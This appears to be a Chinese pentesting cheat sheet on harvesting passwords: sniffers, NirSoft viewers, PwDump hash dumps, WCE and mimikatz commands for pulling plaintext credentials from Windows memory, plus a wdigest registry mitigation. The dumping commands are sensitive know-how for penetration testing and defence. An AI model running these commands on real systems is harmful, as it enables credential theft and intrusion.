



# 密码获取

## 0x01 抓包嗅探

### windows
+ Wireshark
+ **Omnipeek**
> OmniPeek同样有能力连接到远程运行多种应用的引擎。运行在Omni3 引擎上的首要应用是Peek DNX(Distributed Network eXpert分布式网络专家)。为了显示远程网段信息，OmniPeek从Peek DNX收集统计数据并进行相关分析。OmniPeek控制台的界面与操作方式都与EtherPeek NX相同：非常易于使用，诸如"选择相关数据包”等内嵌功能以及可客户化的界面。OmniPeek也用来配置远程引擎，包括过滤、报告、和专家系统等设置。只有在用户需要解码、分析或者本地保存数据包内容时，数据包文件才会被传送到OmniPeek。
+ commview
+ Sniffpass

### Linux
+ Tcpdump
+ Wireshark
+ Dsniff(可以从数据包读取密码)

```
Usage: dsniff [-cdmn] [-i interface | -p pcapfile] [-s snaplen]
              [-f services] [-t trigger[,...]] [-r|-w savefile]
              [expression]
```

## 0x02 劫持查看获取密码
### Keylogger
### 通过木马窃取

## 0x03 密码获取工具

### 本地缓存了浏览器, 无线等的密码
> 查看工具下载链接: https://www.nirsoft.net/
+ 部分浏览器如Firefox可以直接在浏览器查看
+ 通过上面的链接下载工具.(Wifi密码查看, VNC密码查看, 浏览器密码查看等)
+ 系统的安全设置里也有
  
### 通过PwDump.exe 
> Kali 存放目录: `/usr/share/windows-binaries/fgdump`
> Quarks PwDump 是一个Win32环境下的系统授权信息导出工具，目前除此之外没有任何一款工具可以导出如此全面的信息，支持这么多的OS版本，且相当稳定。它目前可以导出 :- Local accounts NT/LM hashes + history 本机NT/LM哈希+历史登录记录 – Domain accounts NT/LM hashes + history 域中的NT/LM哈希+历史登录记录 – Cached domain password 缓存中的域管理密码 – Bitlocker recovery information (recovery passwords & key packages) 使用Bitlocker的恢复后遗留的信息支持的操作系统 : XP/2003/Vista/7/2008/8 等
> 

> 
> 下载系统密码加密值, 然后解密(可以使用ophcrack)

+ 我的测试一直是乱码, 不晓得啥原因

### 内存明文密码获取
#### Windows身份认证过程
> 计算对照: 
lmhash = LMHash("pwd1")
nthash = NTHash("pwd1")

  

+ 在内存里可能会存有一份明文密码, 或可以直接读取.

#### wce
> WCE(WINDOWS CREDENTIAL EDITOR)
> Kali中的位置 `/usr/share/wce`


```
# 读取明文密码, 前提是管理员权限, 系统未做访问(Win8以上有防护), 只能读取当前登录的用户
wce-universal.exe -w 

# 读取sam
wce-universal.exe 

# 此外还可以添加删除会话session

-l              列出登录的会话和NTLM凭据（默认值）
-s              修改当前登录会话的NTLM凭据 参数：<用户名>:<域名>:<LM哈希>:<NT哈希>
-r              不定期的列出登录的会话和NTLM凭据，如果找到新的会话，那么每5秒重新列出一次
-c              用一个特殊的NTML凭据运行一个新的会话 参数：<cmd>
-e              不定期的列出登录的会话和NTLM凭据，当产生一个登录事件的时候重新列出一次
-o              保存所有的输出到一个文件 参数:<文件名>
-i              指定一个LUID代替使用当前登录会话 参数:<luid>
-d              从登录会话中删除NTLM凭据 参数:<luid>
-a              使用地址 参数: <地址>
-f              强制使用安全模式
-g              生成LM和NT的哈希 参数<密码>
-K              缓存kerberos票据到一个文件（unix和windows wce格式）
-k              从一个文件中读取kerberos票据并插入到windows缓存中
-w              通过摘要式认证缓存一个明文的密码
-v              详细输出
```

### 防止从内存中读取 LM/NT HASH的方法

+ 注册表删除

```
Digest Authentication Package  # 就是这个包维护明文密码

NTLM Security Package 

Kerberos Security Package
```
目录: 

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\SecurityPackages
```
  
把最下面一行`wdigest`删除即可(注意, 删除之后, 系统就变为单用户系统了, 不能同时登陆两个账号.)

## 0x04 mimikatz
> 渗透测试常用工具。法国一个牛B的人写的轻量级调试器，可以帮助安全测试人员提权,抓取Windows密码,等等.
> 项目地址: https://github.com/gentilkiwi/mimikatz/releases/

```
显示帮助:
:: <回车>

提权:
privilege::debug

查看密码:
sekurlsa::wdigest
sekurlsa::msv
sekurlsa::logonpasswords

同时登陆补丁:
ts::multirdp

还有各种功能(日志清除,停止日志记录, 服务进程冻结停止等, iis管理, 启动自己的rpc服务等 ), 非常强!
``` 
